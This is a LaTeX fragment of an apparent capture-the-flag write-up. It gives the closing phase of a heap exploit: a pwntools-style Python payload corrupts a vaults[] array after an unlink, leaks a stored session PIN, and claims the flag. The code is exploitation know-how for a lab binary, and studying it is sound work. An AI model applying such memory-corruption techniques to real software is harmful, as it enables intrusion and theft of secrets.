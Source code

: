 \documentclass[12pt,a4paper]{article}
\begin{document}
\begin{enumerate}
  \item \textbf{Phase 4 — Claim:}
  \begin{enumerate}[label=\alph*.]
    \item Submit: \texttt{claim(stage=3, value=session\_pin)}.
    \item The binary verifies it matches the stored random value and prints the flag.
  \end{enumerate}
\end{enumerate}

\begin{lstlisting}[style=python, caption={Stage 3 exploit (key logic after Unlink)}]
# Phase 2: Corrupt vaults[] array
bss_payload  = b'\x00' * 0x18              # padding

bss_payload += p64(0x6032d0)               # vault[0].data (safe)
bss_payload += p32(0) + p32(0)             # vault[0]: disabled
bss_payload += b'\x00' * 16               # vault[0].name

bss_payload += p64(0x6032e8)               # vault[1].data = &session_pin
bss_payload += p32(8) + p32(1)             # vault[1]: state=1
bss_payload += b'\x00' * 16               # vault[1].name

for i in range(5):                         # vaults 2-6: disabled
    bss_payload += p64(0) + p32(0) + p32(0) + b'\x00'*16

bss_payload += p64(0) + p32(0) + p32(0)   # vault 7 (partial)

reseal_vault(0, bss_payload)

# Phase 3: Leak session_pin via audit
audit_output = audit_vaults()
match = re.search(rb'vault\[1\]: (0x[0-9a-fA-F]+)', audit_output)
session_pin = int(match.group(1), 16)

# Phase 4: Claim
claim(stage=3, value=session_pin)
\end{lstlisting}

\subsection{Challenges and Debugging}
\end{document}
